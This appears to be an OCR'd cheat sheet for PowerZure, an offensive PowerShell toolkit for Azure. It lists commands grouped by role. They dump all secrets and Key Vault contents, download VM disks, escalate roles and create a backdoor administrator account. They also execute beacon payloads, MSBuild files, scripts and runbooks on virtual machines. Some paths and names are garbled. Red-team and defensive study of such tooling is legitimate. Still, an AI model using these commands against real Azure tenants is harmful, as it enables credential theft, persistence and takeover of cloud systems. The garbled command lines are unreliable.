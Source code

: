 ### Import
```powershell
ipmo C:\Path\To\Powerzure.psd1
```

### Current User
```powershell
Get-AzureCurrentUser
Get-AzureTarget
```

### Reader Commands
### Get-Runbook, Get-AllUsers, Get-Apps, Get-Resources, Get-WebApps, Get-WebAppDetails
### Contributor Abilities
```powershell
Execute-Command 
Execute-MSBuild 
Get-AllSecrets ### AllAppSecrets, AllKeyVaultContents
Get-AvailableVMDisks, Get-VMDisk ### Download a virtual machine's disk
### Owner
Set-Role -Role Contributor -User test@contoso.com -Resource Win10VMTest
### Administrator Backdoor
New-AzureBackdoor -Username 'PrintService' -Password 'Print-or-Die2023!'
### Scripts for Intune/extension exec
New-AzureIntuneScript -Script 'C:\temp\test.ps1'
Invoke-AzureCustomScriptExtension -VMName AzureWin10 -Command whoami
Invoke-AzureCustomScriptExtension -VM 'Windows10' -ResourceGroup 'Defaultresourcegroup-cus' -Command 'powershell.exe -c mkdir C:\test'
```

### Agent and Execute using userData channel
```powershell
Invoke-AzureVMUserDataAgent -VM AzureWin10
Invoke-AzureVMUserDataCommand -VM AzureWin10 -Command ls
```

```powershell
### Execute commands and msbuild payloads
Invoke-AzureRunProgram -VMName AzureWin10 -File C:\tempbeacon.exe
Invoke-AzureRunCommand -VMName AzureWin10 -Script 'C:\temp\test.ps1'
Invoke-AzureRunMSBuildd -VMName AzureWin10 -File 'C:\temp\build.xml'
```

### Execute runbooks
```powershell
Get-AzureRunAsAccount
Get-AzureRunAsCertificate -AutomationAccount TestAccount
Get-AzureRunbookContent -All -OutFilePath 'C:\temp

Invoke-AzureCommandRunbook -AutomationAccount TestAccount -VMName Win10Test -Command whoami
Invoke-AzureCommandRunbook -AutomationAccount TestAccount -VMName Win10Test -Script "C:temptest.ps1"
```
